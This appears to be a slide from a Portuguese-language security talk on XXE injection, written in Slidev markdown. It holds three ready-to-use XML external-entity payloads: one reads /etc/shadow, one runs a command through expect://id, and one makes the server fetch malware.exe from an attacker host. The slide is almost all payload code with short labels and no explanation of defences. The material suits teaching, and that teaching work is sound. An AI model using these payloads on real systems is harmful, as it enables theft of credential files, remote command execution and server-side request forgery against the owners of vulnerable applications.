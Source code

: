 # XXE Injection

<div grid="~ cols-2 gap-4">
<div v-click style="transition:500ms">
Leitura de arquivo

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE doc [<!ELEMENT doc ANY >
  <!ENTITY tipo SYSTEM "file:///etc/shadow" >]>
<produto>
  <nome>Celular</nome>
  <valor>752</valor>
  <tipo>&tipo;</tipo>
</produto>

```

</div>

<div v-click style="transition:500ms">
Execução de comandos (RCE)

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ELEMENT foo ANY >
   <!ENTITY tipo SYSTEM "expect://id" >]>
<produto>
  <nome>Celular</nome>
  <valor>752</valor>
  <tipo>&tipo;</tipo>
</produto>

```

</div>
</div>

<div v-click style="transition:500ms">

Requisição (SSRF)
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ELEMENT foo ANY >
  <!ENTITY tipo SYSTEM "http://www.attacker.com/malware.exe" >]>
<produto>
  <nome>Celular</nome>
  <valor>752</valor>
  <tipo>&tipo;</tipo>
</produto>

```

</div>